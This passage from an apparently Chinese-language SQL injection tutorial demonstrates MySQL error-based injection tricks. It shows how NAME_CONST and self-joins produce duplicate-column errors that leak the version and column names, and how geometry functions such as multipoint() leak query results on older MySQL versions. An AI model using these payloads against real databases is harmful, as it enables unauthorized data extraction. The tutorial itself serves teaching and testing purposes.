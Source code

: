 
### 0x04 一些特性

> 1.列名重复

mysql列名重复会报错，我们利用name_const来制造一个列：

		mysql> select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
		ERROR 1060 (42S21): Duplicate column name '5.7.17'

根据官方文档，name_const函数要求参数必须是常量，所以实际使用上还没找到什么比较好的利用方式。

利用这个特性加上join函数可以爆列名：

		mysql> select *  from(select * from test a join test b)c;
		ERROR 1060 (42S21): Duplicate column name 'id'
		mysql> select *  from(select * from test a join test b using(id))c;
		ERROR 1060 (42S21): Duplicate column name 'name'

> 2.几何函数

mysql有些几何函数，例如geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()，这些函数对参数要求是形如(1 2,3 3,2 2 1)这样几何数据，如果不满足要求，则会报错。经测试，在版本号为5.5.47上可以用来注入，而在5.7.17上则不行：

		5.5.47
		mysql> select multipoint((select * from (select * from (select version())a)b));
		ERROR 1367 (22007): Illegal non geometric '(select `b`.`version()` from ((select '5.5.47' AS `version()` from dual) `b`))' value found during parsing
		5.7.17
		mysql> select multipoint((select * from (select * from (select version())a)b));
		ERROR 1367 (22007): Illegal non geometric '(select `a`.`version()` from ((select version() AS `version()`) `a`))' value found during parsing

